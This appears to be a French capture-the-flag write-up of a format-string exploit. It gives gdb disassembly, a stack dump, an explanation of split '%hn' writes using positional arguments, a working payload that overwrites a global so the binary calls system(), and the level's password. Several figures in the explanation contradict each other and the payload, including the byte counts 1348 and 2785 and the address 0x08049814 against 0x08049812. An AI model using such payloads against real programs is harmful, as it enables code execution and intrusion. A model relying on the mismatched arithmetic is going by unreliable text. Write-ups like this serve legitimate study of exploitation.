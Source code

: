 ```
Dump of assembler code for function n:
   0x08048457 <+0>:	push   ebp
   0x08048458 <+1>:	mov    ebp,esp
   0x0804845a <+3>:	sub    esp,0x218						; 536
   0x08048460 <+9>:	mov    eax,ds:0x8049804					; address STDIN
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax		; esp+8 = STDIN
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200	; esp+4 = 512
   0x08048471 <+26>:	lea    eax,[ebp-0x208]				; *s = ebp-220
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>		; fgets(*s)
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>				; p(*s)
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544				; adresse à écrire dans 0x8049810
   0x08048497 <+64>:	jne    0x80484a5 <n+78>				; leave -> ret
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```
```
Dump of assembler code for function p:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]		; *s
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>	; printf(*s)
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
```

Au même titre que l'exercice précédent, on est sur du format string. Sauf qu'ici, l'objectif est d'écrire une adresse dans une adresse.
Le souci est que nous devons écrire `0x01025544` dans l'adresse `0x8049810`, ce qui correspondrait à écrire `16930116` octets au total, soit une chaine bien trop longue à écrire.

Pour ce faire, nous pouvons utiliser le modificateur `h` sur le format `%n` afin d'écrire un short au lieu d'un int. Par conséquent, on peut couper notre `int` en deux :
`0x0102` et `0x5544`.

Ce qui nous donne indépendamment `258` octets et `21828` octets à écrire. On a donc à écrire deux adresses dans la stack, la première celle qui pointera vers `0x5544`, et la seconde celle vers `0x0102`.

Attention tout de même à penser au fait que lorsque l'on aura écrit nos `21828` octets, il faudra les soustraires aux `258` d'après pour écrire exactement `21828` et non `22086`.

```
(gdb) x/100xw $sp
0xbffff4f0:	0xbffff728	0xb7ff26b0	0xbffff764	0xb7fd0ff4
0xbffff500:	0x00000000	0x00000000	0xbffff728	0x0804848d
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x41414141	0x41414141	0x41414141
```

On se rend compte ici également qu'on va ou devoir utiliser beaucoup de `%x` pour destacker les valeurs, ou utiliser le modificateur `$` afin de sélectionner la bonne adresse sur la stack.

Par exemple :
`%1$x` va afficher le premier argument sur la stack en hexadecimal, soit le même qu'avec uniquement `%x` (`0xb7ff26b0`).
Donc, notre injection commence au 12e argument. Du fait, si on souhaite obtenir `0x41414141`, il nous suffit de faire :
`AAAA%11$x`.
`AAAA` ira écrire le 12e argument sur la stack, et `%11$x` ira le lire.

On doit donc écrire à l'adresse `0x08049810`, et d'abord écrire `1348`, il nous faut donc avancer de 4, donc écrire sur :
- `0x08049814`, puis :
- `0x08049810`

Résultat :
- `\x12\x98\x04\x08\x10\x98\x04\x08` écrira les deux adresses les unes à la suite des autres sur la stack.
- `%250x` écrira l'adresse 1 avec un padding formant un tout de 250 octets (+ les 8 composant l'adresse).
- `%12$hn` écrira un short sur l'adresse 12.
- `%21570x` écrira l'adresse 2 avec un padding formant un tout de 2785 octets (+ 1348 précédemment écrits).
- `%13$hn` écrira un short sur l'adresse 13.

`\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%21570x%13$hn`

Password: `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`